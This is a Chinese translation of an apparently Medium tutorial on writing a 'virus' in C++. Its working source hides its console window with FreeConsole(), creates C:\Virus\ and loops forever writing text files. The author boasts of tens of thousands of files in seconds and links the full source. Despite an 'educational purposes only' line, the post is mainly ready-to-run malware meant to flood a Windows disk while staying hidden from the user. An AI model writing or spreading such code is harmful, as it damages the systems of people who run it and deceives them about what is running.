


# 电脑会生病吗？(如何用 C++创建病毒)

> 原文：<https://medium.com/codex/can-computers-get-sick-how-to-create-a-virus-in-c-e09f2a6ad45b?source=collection_archive---------11----------------------->

## 首先，我们需要了解电脑生病意味着什么。

嗯，这就是让计算机以重复的方式非常快速地做一些普通的事情。所以我们要用 C++来实现这个目的，因为它是一种超快的语言。我们走吧。

注意:这仅用于教育目的！


## 1.让我们把图书馆准备好。

```
#include <iostream>#include <fstream> //for openning the files and write inside of them#include <string> //to deal with strings#include <direct.h> //to create a directory#include <Windows.h> //so we can make the program anonymous
```

当然，光靠库是无法实现这些的，但是我们包含了它们，这样我们就可以使用那些会使我们的病毒变得危险的函数。

## 2.主要功能制作

是时候准备好主函数了，先从“FreeConsole()”函数让病毒匿名开始。我们还将创建一个 int 变量来跟踪病毒生成了多少文件，因此我们的代码将如下所示:

```
int main(){FreeConsole();
int h = 0;}
```

注意:“FreeConsole()”功能真的很酷，如果我们把它用户甚至不能关闭程序，除非从任务管理器。

让魔法开始吧，我们需要创建一个目录名，并创建一个消息来存放我们将要创建的文件。然后我们创建目录本身，因此主要功能是:

```
int main(){FreeConsole();int h = 0;const char *path = "C:\\Virus\\";std::string str ="your computer is dead";_mkdir(path); //this function will create the directory}
```

## 3.无限循环

这是代码变得真正危险的部分，我们将创建一个无限循环，不断创建越来越多的文件，永不停止。

无限循环代码必须是这样的:

```
while (true){++h;std::ofstream Virus;Virus.open(path + std::to_string(h) + ".txt", std::ios_base::out);Virus << str;Virus.close();}
```

## 真的很危险吗？

让我们试一试！我构建了这个程序，并在我的设备上运行它，当我启动它的时候就发生了这种情况:



如你所见，我们让杀毒软件开始运行我们的小病毒。邪恶！我们要检查的最后一件事是，在运行该病毒 10 秒钟后，我们创建了多少文件:



**41595 档！**

我告诉过你它太快了。

这篇博文到此结束，希望你喜欢！

源代码:

https://github.com/habiblafi/habib.virus